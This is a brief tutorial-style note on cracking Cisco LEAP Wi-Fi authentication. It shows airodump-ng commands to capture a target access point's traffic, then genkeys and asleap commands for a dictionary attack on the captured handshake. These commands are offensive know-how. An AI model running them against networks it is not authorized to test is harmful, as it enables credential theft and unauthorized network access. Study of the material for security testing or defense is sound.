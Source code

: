 ```yaml
---
title: LEAP
---
```


## What is this about?
Lightweight Extensible Authentication Protocol, which is Cisco's DIY version of MS-CHAP. 

## Step 0
Read [this](https://en.wikipedia.org/wiki/Lightweight_Extensible_Authentication_Protocol) and [that](https://freeradius.org/rfc/leap.txt)

## Lets oneshot this

### Dumping traffic
Last time I checked LEAP was used as much as WEP, so yeah this is going to be a short one!

Get your target's info with a simple
```
airodump-ng mon0
```
Get the channel and BSSID and set it in the following command to whatever your target is
```
airodump-ng -c 2 --bssid 00:11:22:33:44:55 -w /tmp/potato.cap mon0
```
You can run this directly on asleap with the -i option though, this is just an extra step to have logs and target a single AP...

### Breaking LEAP

Get Asleap by running a
```
git clone https://github.com/joswr1ght/asleap
```
Generate your hashes + indexes with genkeys if you need to.
```
./genkeys -r your-dictionary -f /path/to/hashes -n /path/to/indexes
```
Now run the following line every so often 
```
./asleap -r /tmp/potato.cap -f /path/to/hashes -n /path/to/indexes -v
```
Go watch some TV and come back for the next run...